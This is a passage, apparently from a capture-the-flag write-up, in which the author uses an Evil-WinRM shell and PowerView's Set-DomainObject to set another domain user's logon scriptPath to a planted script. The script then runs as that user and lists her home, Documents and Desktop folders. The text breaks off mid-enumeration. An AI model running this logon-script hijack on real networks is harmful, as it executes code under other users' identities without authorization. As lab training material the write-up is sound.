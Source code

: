 

I would have expected only five pings, but it goes on indefinitely until
I change the script. It seems this logon script is being run repeatedly.

### Home Dir Enum

Because I know I can't connect back because of the firewall, I'll drop
scripts into the logon that write results where I can read them. For
example:



    *Evil-WinRM* PS C:\programdata> echo "ls \users\maria\ > \programdata\out" > cmd.ps1
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}



About a second or so later there's an `out`:



    *Evil-WinRM* PS C:\programdata> type out

        Directory: C:\users\maria

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---       10/22/2021   3:54 AM                3D Objects
    d-r---       10/22/2021   3:54 AM                Contacts
    d-r---       10/25/2021   3:47 AM                Desktop
    d-r---       10/25/2021  10:07 PM                Documents
    d-r---       10/22/2021   3:54 AM                Downloads
    d-r---       10/22/2021   3:54 AM                Favorites
    d-r---       10/22/2021   3:54 AM                Links
    d-r---       10/22/2021   3:54 AM                Music
    d-r---       10/22/2021   3:54 AM                Pictures
    d-r---       10/22/2021   3:54 AM                Saved Games
    d-r---       10/22/2021   3:54 AM                Searches
    d-r---       10/22/2021   3:54 AM                Videos



It's interesting that the `Documents` and `Desktop` folders have
different timestamp than the rest. I'll list those directories:



    *Evil-WinRM* PS C:\programdata> echo "ls \users\maria\documents > \programdata\out; ls \users\maria\desktop\ > \programdata\out2" > cmd.ps1
    *Evil-WinRM* PS C:\programdata> ls out*

        Directory: C:\programdata

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        2/28/2022   3:42 AM              0 out
    -a----        2/28/2022   3:42 AM            830 out2
    *Evil-WinRM* PS C:\programdata> type out2
